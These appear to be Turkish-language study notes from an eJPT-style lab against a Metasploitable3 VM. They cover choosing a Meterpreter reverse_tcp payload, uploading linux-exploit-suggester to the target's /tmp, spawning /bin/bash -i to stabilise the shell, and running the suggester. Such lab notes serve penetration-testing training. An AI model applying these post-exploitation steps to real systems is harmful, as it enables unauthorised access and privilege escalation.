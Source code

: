 #meterpreter-linux-reverse-shell

## linux/x86/meterpreter/reverse_tcp)
#### Önemli not Meterpreter shell alacaksan linux'dan bu payload'ı seç diğer hata veriyor.


---

## EXPOIT
### Biz senaryo gereği zaten bir zzafiyeti kullanıp meterpreter shell aldık.

##### Şimdi aldığımız shell'le linux-exploit-suggester dosyasını biz meterpreter-upload ile hedefin tmp klasörüne atıp çalıştıracağız.

```
upload /home/kali/Documents/eJPT/linux-exploit-suggester/linux-exploit-suggester.sh
```
![[Pasted image 20240212222656.png]]

![[Pasted image 20240212222802.png]]
### Sonra meterpreter'den shell'e geçiş yapıyoruz.

```
/bin/bash -i
```
#meterpreter-shell-bin-bash
![[Pasted image 20240212222935.png]]
#### Neden böyle yaptık çünkü shell aldığımızdaki gelen shell stabil ve anlaşılır değildi. Bunu ya /bin/bash -i ile yapabiliriz ya da python varsa python spawn shell ile yapabiliriz.

```
vagrant@metasploitable3-ub1404:/tmp$ chmod +x linux-exploit-suggester.sh

vagrant@metasploitable3-ub1404:/tmp$ ls -la

vagrant@metasploitable3-ub1404:/tmp$ ./linux-exploit-suggester.sh
```


![[Pasted image 20240212223414.png]]

### Burada yaptığımız şu--> upload ile meterpreter ile karşıya exploit-suggester'ı attık
## Shell'e çevirdik ve onu /bin/bash -i ile daha istikrarlı hale getirdik
##### Sonra chmod +x ile linux-exploit-suggester'I executable yaptık
